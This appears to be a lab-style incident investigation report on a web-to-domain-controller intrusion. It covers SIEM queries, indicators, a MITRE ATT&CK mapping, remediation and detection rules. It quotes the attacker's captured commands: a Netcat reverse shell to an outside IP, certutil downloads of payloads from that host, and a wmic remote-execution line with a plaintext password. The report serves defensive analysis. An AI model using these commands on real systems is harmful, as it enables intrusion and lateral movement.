






# Incident Investigation Report: Web Exploitation, LOLBin Payload Staging & WMI Lateral Movement

**Target Domain:** `electric.com`

**Severity:** Critical

**Date of Incident:** April 8, 2025

**Prepared By:** Neel Soni

---

## Network Setup & Environment Topology

The target environment comprises a 5-computer Active Directory enterprise network monitored by a centralized Elastic ELK stack.

*Figure 1: Enterprise Network Architecture displaying ELK SIEM (`siem04`), Domain Controller (`dc01`), and database fleet (`sql01`).*



* **SIEM / Logging Host (`siem04.electric.com`):** `192.168.211.75` (Ubuntu ELK Cluster)
* **Domain Controller (`dc01.electric.com`):** `192.168.211.70` (Windows Server 2019)
* **Application Server (`appsrv07.electric.com`):** `192.168.211.71` (Windows Server 2019)
* **Database Server (`sql01.electric.com`):** `192.168.211.72` (Windows Server 2019)
* **Jump Host (`jump02.electric.com`):** `192.168.211.73` (Windows Server 2019)

---

## Executive Summary

On **April 8, 2025**, an adversary executed an intrusion chain across database infrastructure (`sql01.electric.com`) and the primary Domain Controller (`dc01.electric.com`).

The threat actor initially compromised `sql01` by exploiting a vulnerable CGI script (`php-cgi.exe`) under the web service account **`wp-user`**, instantly spawning an outbound Netcat reverse shell to IP **`192.168.51.79`**. The adversary leveraged `certutil.exe` to stage malicious executables (`Sync.exe` and `apphelper.exe`) and attempted persistence via service manipulation (`sc stop`). Using compromised domain administrator credentials, the threat actor pivoted laterally from `sql01` to `dc01` via WMI, invoking remote process execution and setting up named pipe communications (`\\.\pipe\lpfols`).

Immediate host isolation, credential revocation, and active C2 pipe eradication are required across the Active Directory domain.

---

## Indicators of Compromise (IoCs) & Incident Summary

| Category | Indicator / Detail | Description |
| --- | --- | --- |
| **Attacker Infrastructure** | `192.168.51.79` | Source IP hosting malicious binaries (`Sync.exe`, `apphelper.exe`) and receiving C2 reverse shell |
| **Initial Access Vector** | `php-cgi.exe` $\rightarrow$ `cmd.exe` $\rightarrow$ `nc.exe` | Web shell execution under web application user `wp-user` |
| **Living-off-the-Land (LOLBins)** | `certutil.exe`, `wmic.exe`, `rundll32.exe` | Staging payloads (`certutil`) and invoking remote lateral execution (`wmic`) |
| **Dropped Binaries** | `Sync.exe`, `apphelper.exe` | Malicious executables staged across `sql01` and `dc01` |
| **Named Pipe / IPC** | `\\.\pipe\lpfols` | Inter-process pipe created for C2 communication or internal persistence |

---

## Detailed Technical Narrative & Incident Walkthrough

### Phase 1: Web Exploitation & Reverse Shell Establishment

The investigation commenced within Elastic Security by querying Sysmon operational process logs (`windows.sysmon_operational`) on `sql01.electric.com` between **09:58:00 and 10:10:00 UTC**:

```kql
process.name: ("powershell.exe" or "cmd.exe" or "bash" or "sh" or "zsh")

```

At **09:59:44.994 UTC**, Sysmon Event ID 1 (Process Creation) recorded the web server daemon `php-cgi.exe` (running under user `wp-user`) spawning a command shell:

```cmd
cmd.exe /c "dig -x t.co|nc.exe 192.168.51.79 9999 -e cmd.exe"

```

Milliseconds later (**09:59:45.057 UTC**), `nc.exe` executed directly, connecting back to C2 server **`192.168.51.79:9999`** and granting the attacker an interactive command shell on `sql01`.

*Figure 2: Sysmon telemetry showing php-cgi.exe spawning Netcat reverse shell back to attacker IP 192.168.51.79.*


---

### Phase 2: Ingress Tool Transfer & Service Manipulation Staging

Advancing the inspection window to **10:12:00 to 10:26:00 UTC**, telemetry was queried for actions performed by user `wp-user`:

```kql
host.name: "sql01.electric.com" and user.name: "wp-user"

```

At **10:15:34.440 UTC**, the adversary utilized `certutil.exe` as a Living-off-the-Land binary (LOLBin) to download a malicious executable from their C2 infrastructure:

```cmd
certutil.exe -urlcache -f http://192.168.51.79/Sync.exe Sync.exe

```

Sysmon Event ID 11 confirmed the file creation of `Sync.exe` on disk. Immediately following the download (**10:16:08.711 UTC**), the attacker attempted to hijack a legitimate local service by issuing service control commands:

```cmd
sc stop "sync breeze enterprise"

```

*Figure 3: Logs displaying certutil payload ingestion and service control manipulation on sql01.*



---

### Phase 3: Secondary DLL Ingestion & Script Bypasses

Between **10:27:00 and 10:42:00 UTC**, Process Creation filtering on `sql01.electric.com` captured secondary execution and obfuscation chains:

```kql
host.name: "sql01.electric.com" and event.action: ("Process Create (rule: ProcessCreate)" or "File created (rule: FileCreate)")

```

At **10:29:04.206 UTC**, `svchost.exe` launched `rundll32.exe` targeting `acproxy.dll`. By **10:30:51.143 UTC**, `rundll32.exe` spawned an elevated command prompt (`cmd.exe`), indicating successful local privilege execution and process injection bypasses.

*Figure 4: Telemetry recording rundll32 process invocation leading to secondary command shell creation.*


---

### Phase 4: WMI Lateral Movement to Domain Controller (`dc01`)

To trace domain-wide escalation during the same timeframe (**10:27:00 to 10:42:00 UTC**), logs were queried on the primary Domain Controller `dc01.electric.com`:

```kql
host.name: "dc01.electric.com" and user.name: "Administrator"

```

At **10:30:51.765 UTC**, WMI Provider Host (`wmiprvse.exe`) on `dc01` spawned `certutil.exe` under compromised **`Administrator`** credentials to pull down a secondary payload (`apphelper.exe`) from `192.168.51.79`:

```cmd
certutil.exe -urlcache -f http://192.168.51.79/apphelper.exe apphelper.exe

```

*Figure 5: Security event log capturing WMI Provider Host executing certutil on dc01.electric.com under Administrator context.*


---

### Phase 5: Payload Execution & Named Pipe C2 Creation

Expanding the timeline to **10:43:00 to 10:55:00 UTC** revealed remote invocation of `apphelper.exe` across hosts:

```kql
event.action: ("Process Create (rule: ProcessCreate)" or "File created (rule: FileCreate)")

```

* **10:46:18.428 UTC**: On `sql01`, `cmd.exe` executed WMIC commands targeting `dc01`:
```cmd
wmic /node:dc01 /user:Administrator /password:lab process call create 'C:\Windows\system32\apphelper.exe'

```


* **10:46:18.522 UTC**: On `dc01`, `wmiprvse.exe` executed the staged payload: `C:\Windows\system32\apphelper.exe`.
* **10:46:23.785 UTC**: Service Controller (`services.exe`) spawned a command shell establishing an active named pipe:
```cmd
cmd.exe /c echo lpfols > \\.\pipe\lpfols

```


This named pipe creation (`\\.\pipe\lpfols`) confirms inter-process C2 messaging or local IPC pipe listener initialization on `dc01`.

*Figure 6: Process execution logs confirming WMIC remote command execution, apphelper.exe launch, and named pipe creation.* 


---

## Threat Mapping (MITRE ATT&CK)

| Tactic | Technique ID | Technique Name | Applied Context |
| --- | --- | --- | --- |
| **Initial Access** | [T1190](https://attack.mitre.org/techniques/T1190/) | Exploit Public-Facing Application | PHP script exploitation via `php-cgi.exe` spawning web shell. |
| **Execution** | [T1059.003](https://www.google.com/search?q=https%3A%2F%2Fattack.mitre.org%2Ftechniques%2FT1059%2F003%2F) | Command and Scripting Interpreter: Windows Command Shell | Interactive shell access via `nc.exe` and `cmd.exe`. |
| **Defense Evasion** | [T1218.011](https://www.google.com/search?q=https%3A%2F%2Fattack.mitre.org%2Ftechniques%2FT1218%2F011%2F) | System Binary Proxy Execution: Rundll32 | Proxying malicious code execution via `rundll32.exe acproxy.dll`. |
| **Command and Control** | [T1105](https://attack.mitre.org/techniques/T1105/) | Ingress Tool Transfer | Abusing `certutil.exe -urlcache` to fetch `Sync.exe` and `apphelper.exe`. |
| **Lateral Movement** | [T1047](https://attack.mitre.org/techniques/T1047/) | Windows Management Instrumentation (WMI) | Utilizing `wmic /node:dc01` to remotely run binaries on Domain Controller. |
| **Command and Control** | [T1071](https://www.google.com/search?q=https%3A%2F%2Fattack.mitre.org%2Ftechniques%2FT1071%2F) | Application Layer Protocol | Creating named pipe `\\.\pipe\lpfols` for internal IPC/C2 communication. |

---

## Comprehensive Remediation & Guidance

### 1. Immediate Containment Action Plan

* **Host Isolation:** Immediately disconnect `sql01.electric.com` and `dc01.electric.com` from the network switch/hub to halt ongoing C2 traffic.
* **Perimeter Firewall Blocking:** Drop all outbound and inbound traffic to external IP **`192.168.51.79`**.
* **Process Termination & Pipe Removal:** Terminate instances of `nc.exe`, `apphelper.exe`, `Sync.exe`, and close active named pipes (`\\.\pipe\lpfols`).
* **Credential Invalidation:** Reset Kerberos krbtgt account passwords twice, reset the domain **`Administrator`** password, and invalidate all service account keys across the `electric.com` domain.

### 2. Eradication & System Hardening

* **Web Application Patching:** Patch underlying PHP installations (`PHP v7.4`) on `sql01` and review web applications to eliminate CGI injection vulnerabilities.
* **LOLBin Restriction:** Block `certutil.exe` from making outbound HTTP/HTTPS connections via Windows Defender Firewall rules or AppLocker path rules.
* **WMI Hardening:** Restrict remote WMI namespace access to specific administrative jump boxes (`jump02.electric.com`) and disable unencrypted WMI remote calls.

### 3. SIEM Detection Engineering Rules

* **Alert Rule 1 (Certutil Ingress Transfer):** Trigger a critical alert when `certutil.exe` contains command-line flags `-urlcache`, `-split`, or `http` in process creation logs.
* **Alert Rule 2 (Remote WMI Process Invocation):** Flag any `wmic.exe` command containing `/node:` executed by non-administrative user endpoints.
* **Alert Rule 3 (Web Server Child Shells):** Trigger a critical alert whenever `php-cgi.exe`, `w3wp.exe`, or `httpd.exe` spawns `cmd.exe`, `powershell.exe`, or unknown binaries.